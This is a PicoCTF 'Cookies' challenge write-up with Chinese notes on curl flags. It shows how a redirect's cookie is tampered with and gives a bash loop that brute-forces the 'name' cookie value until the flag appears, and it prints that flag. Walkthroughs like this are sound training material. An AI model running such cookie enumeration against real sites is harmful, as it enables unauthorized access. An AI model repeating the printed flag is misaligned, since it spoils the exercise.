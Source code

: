 ```yaml
---
title: PicoCTF - Cookies
tags: [PicoCTF, CTF, Web]

category: "Security > Practice > PicoCTF > Web"
---
```


# PicoCTF - Cookies
###### tags: `PicoCTF` `CTF` `Web`
Challenge: http://mercury.picoctf.net:64944/

## Background
[curl 的用法指南](https://www.ruanyifeng.com/blog/2019/09/curl-reference.html)
> -H參數添加 HTTP 請求的標頭。
`$ curl -H 'Accept-Language: en-US' https://google.com`

> -s參數將不輸出錯誤和進度信息。
`$ curl -s https://www.example.com`

> -L參數會讓 HTTP 請求跟隨服務器的重定向。curl 默認不跟隨重定向。
`$ curl -L -d 'tweet=hi' https://api.twitter.com/tweet`

> -I參數向服務器發出 HEAD 請求，然會將服務器返回的 HTTP 標頭打印出來。
`$ curl -I https://www.example.com`


## Exploit
1. Try to analyze
When I input something, it'll redirect to another page
![](https://i.imgur.com/Pq7XpNZ.png)
![](https://i.imgur.com/pKZJWfd.png)
I tried to change cookie to different number and also modify the different value of `name` parameter however, still got wrong information.

2. What about the redirect request
    ```bash!
    $ curl http://mercury.picoctf.net:64944/ -I
    HTTP/1.1 302 FOUND
    Content-Type: text/html; charset=utf-8
    Content-Length: 209
    Location: http://mercury.picoctf.net:64944/
    Set-Cookie: name=-1; Path=/
    ```
    You can see that there is a cookie in header

3. How about setting different value?
    ```bash!
    $ curl http://mercury.picoctf.net:64944/ -H "Cookie: name=0;" -L
    ...
              <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
                </div>



            <div class="jumbotron">
                <p class="lead"></p>
                <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            </div>
    ...
    ```
    It seems a hint to find value.

<font color="FF0000">通靈</font>
4. Brute force
```bash!
$ for i in {1..20};
for> do
for> contents=$(curl -s http://mercury.picoctf.net:27177/ -H "Cookie: name=$i; Path=/" -L)
for> if ! echo "$contents" | grep -q "Not very special"; then
for then> echo "Cookie #$i is special"
for then> echo $contents | grep "pico"
for then> break
for then> fi
for> done
Cookie #18 is special
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
```


## Reference
[[ Day10] Web 小複習 ](https://ithelp.ithome.com.tw/articles/10271065)